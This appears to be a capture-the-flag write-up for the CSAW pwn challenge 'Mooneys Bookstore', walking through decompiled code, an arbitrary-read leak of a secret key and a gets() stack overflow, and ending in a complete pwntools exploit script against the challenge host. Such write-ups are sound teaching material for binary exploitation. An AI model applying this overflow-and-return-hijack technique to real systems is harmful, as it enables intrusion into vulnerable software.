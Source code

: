 # Mooneys Bookstore
## Mitigations
```
    Arch:     amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
## Solution

The challenge gives us only a binary [FILE HERE].
When opening the file in Ghidra, we can see that `main` appears as so:

```c
undefined8 main(void)

{
  FILE *ctx;
  long local_18;
  undefined8 *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  ctx = stdin;
  setvbuf(stdin,(char *)0x0,2,0);
  init((EVP_PKEY_CTX *)ctx);
  puts(&DAT_00402018);
  puts("\nYour favorite book waits for you. Tell me its address");
  read(0,&local_10,8);
  printf("%lx\n",*local_10);
  puts("\nOf course there\'s a key. There always is. If you speak it, the story unlocks");
  read(0,&local_18,8);
  if (local_18 == secret_key) {
    get_input();
  }
  else {
    puts(&DAT_004021b0);
  }
  return 0;
}
```

As we can see, we have an arbitrary read. 

```c
read(0,&local_10,8);
printf("%lx\n",*local_10);
```

Since there is no other vulnerabilities we can exploit here, we can take a look at the `get_input` function:

```c
void get_input(void)

{
  char input [64];
  long local_18;
  FILE *local_10;
  
  local_10 = fopen("/dev/urandom","rb");
  if (local_10 == (FILE *)0x0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fread(&val,8,1,local_10);
  fclose(local_10);
  local_18 = val;
  printf("\n\tA post-it on the floor. You would have stepped over it. I didn\'t. It has something fo r you: 0x%lx\n"
         ,val);
  puts("\nYour turn now. Write yourself into this story.");
  fflush(stdout);
  gets(input);
  if (local_18 != val) {
    puts("\nDisappointing. But that\'s you, isn\'t it? Messy. Human. And I stay anyway.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return;
}
```

Within this function, there is a gets call! So we can safely assume that is what we'll use to cause a buffer overflow.
Going back to the `main` function, we can see that to get into `get_input`, we need `local_18` to equal `secret_key`.

```c
if (local_18 == secret_key) {
    get_input();
}
```

We know that `secret_key` is a global variable, and thus is not on the stack. However, we can use the arbitrary read within `main` to read the value of `secret_key` and pass that back into `main`!

```py
io = start()

io.recvuntil(b"address")
io.send(p64(0x4040b8)) #The address of the `secret_key`
io.recvline()
s = io.recvline()[:-1]
io.send(p64(int(s,16)))
```

Running our program we get the output:

```
Of course there's a key. There always is. If you speak it, the story unlocks

    A post-it on the floor. You would have stepped over it. I didn't. It has something for you: 0xfa527d1ec734ee72

Your turn now. Write yourself into this story.
```

The hex address in the output appears suspicious, and on a second look at the `get_input` function, we see the line

```c
local_18 = val;
printf("\n\tA post-it on the floor. You would have stepped over it. I didn\'t. It has something fo r you: 0x%lx\n"
    ,val);
puts("\nYour turn now. Write yourself into this story.");
fflush(stdout);
gets(input);
if (local_18 != val) {
    puts("\nDisappointing. But that\'s you, isn\'t it? Messy. Human. And I stay anyway.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
}
```

So it appears that the `local_18` variable needs to equal anolther global variable for our exploit to work. Thankfully, the hex address we saw earlier is that global variable's value! So, all we need to do is read that value and make sure we place it right where `local_18` is on the stack when overflowing the buffer. Taking a look at what the stack looks like (obtained from looking at the assembly in Ghidra) with this function we see that the input buffer is located at -0x58 compared to the return address, while `local_18` is located at -0x18.

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined get_input()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[4]:     00401353(W), 
                                                                                                   00401357(R), 
                                                                                                   00401368(R), 
                                                                                                   00401388(R)  
             undefined8        Stack[-0x18]:8 local_18                                XREF[2]:     0040139b(W), 
                                                                                                   004013f3(R)  
             undefined1[64]    Stack[-0x58]   input                                   XREF[1]:     004013db(*)  
                             get_input                                       XREF[4]:     Entry Point(*), main:00401315(c), 
                                                                                          0040231c, 004023e0(*)  
        00401332 55              PUSH       RBP
```

Combining what we know, we end up with the final solve script.

## Script

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--host=chals.ctf.csaw.io' '--port=21006'
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'overflow')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'chals.ctf.csaw.io'
port = int(args.PORT or 21006)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
b *(get_input+239)
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

io.recvuntil(b"address")
io.send(p64(0x4040b8)) #The address of the `secret_key`
io.recvline()
s = io.recvline()[:-1]
io.send(p64(int(s,16)))
io.recvuntil(b"you:")
s2 = io.recvline()[1:-1]
print(s2)
buf = b'a' * (0x58-0x18)
buf = buf + p64(int(s2,16))
#buf = buf + b'a'*0x18
buf = buf + (b'0' * 0x10)
buf = buf + p64(0x401423) +  p64(0x401424)
io.send(buf)

io.interactive()
```

Running this gives us the flag. I do not remember what the flag was and the infrastructure was down at the time of writing this. :P